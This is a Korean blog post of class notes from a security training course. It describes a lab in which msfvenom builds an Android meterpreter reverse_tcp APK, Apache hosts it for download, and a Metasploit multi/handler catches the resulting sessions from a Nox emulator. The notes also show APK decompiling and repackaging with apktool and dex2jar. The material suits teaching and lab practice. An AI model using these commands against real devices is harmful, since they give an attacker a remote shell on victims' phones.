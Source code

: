 ```yaml
---
layout: post
title: 취약점 진단 및 대응 실무 2日 / SeSAC 성동캠퍼스1기
description: >
  [클라우드 기반의 모빌리티 융합보안 과정] 취약점 진단 및 대응 실무 2日차 수업 정리한 내용입니다.
#image: /assets/img/blog/cover-4.jpg
comments: true
#sitemap: false
#published : false
categories: [study,security-vulnerability]
tags: [sesac,cloud,skshieldus,security-vulnerability]
related_posts:
#  - _posts/study/python/2023-10-31-day2.md
#  - _posts/study/python/2023-11-01-day3.md
#  - _posts/study/python/2023-11-02-day4.md
---
```

* toc
{:toc}

<style>.embed-container { position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden; max-width: 100%; } .embed-container iframe, .embed-container object, .embed-container embed { position: absolute; top: 0; left: 0; width: 100%; height: 100%; }</style><div class='embed-container'><iframe src='https://www.youtube.com/embed/8eB-7l7ysX8' frameborder='0' allowfullscreen></iframe></div>

## 취약점 진단 및 대응 실무 / 4주차 2일자 수업

### 1. Kali Linux

#### 1-1. Kali Linux & Metasploit

> 先 3줄 요약<br>
> 1. Kali에서 apache2를 실행하여 외부에서 접속 가능한지 확인.
> 2. Kali에서 metasploit console을 실행하여 apk에 악성앱 탑재.
> 3. Nox에서 실행하고, Kali에서 session 확인하기.
{:.lead}

먼저 kali에서다음을 확입합니다.
1. vm 네트워크 NAT 설정
2. sudo service apache2 restart
	웹 페이지를 오픈
3. ip확인(ip addr, ifconfig)
{:.lead}

다음으로 Nox에서
1. 인터넷 브라우저로 ip에 접근하여 nox에서 kali로 접근되는지 확인

그리고 kali에서
1. msfvenom -p android/meterpreter/reverse_tcp LHOST=ip address LPORT=4444 R > apk 
2. sudo cp apk /var/www/html/ # 생성된 악성코드를 웹 배포
3. msfconsole # 메타스플로잇 콘솔 실행
4. use exploit/multi/handler # 핸들러 설정
5. set payload android/meterpreter/reverse_tcp # 페이로드 설정
6. set LHOST ip address # ip설정
7. set LPORT 4444 # 포트 설정
8. set exitonsession false 
9. exploit -j #실행

그리고 Nox에서
10. 인터넷 브라우저로 접근하여 apk설치

마지막으로 kali에서
1. sessions # 세션확인
2. sessions -i
3. sudo cp apk /var/www/html/apk.zip

```bash
tasklist | findstr Nox(nox handler)
netstat  -ano | pid
adb connect 127.0.0.1:62001 #Nox ip, port
```

### 2. Apk Decompile, Re-Package

APK 디컴파일 할 때 JAVA와 apktool이 요구됩니다. APK는 자바 -> 클래스 -> 덱스 -> smali -> java과 같은 구조를 지니고 있습니다.
{:.note}

```shell
java -jar apktool_2.5.0.jar d apk파일명 #d는 디컴파일을 의미
```

```shell
java -jar apktool_2.5.0.jar b apk파일명 #b는 리패키징
```

```shell
d2j-dex2jar.bat apk파일명 #jar파일 생성 = class
```

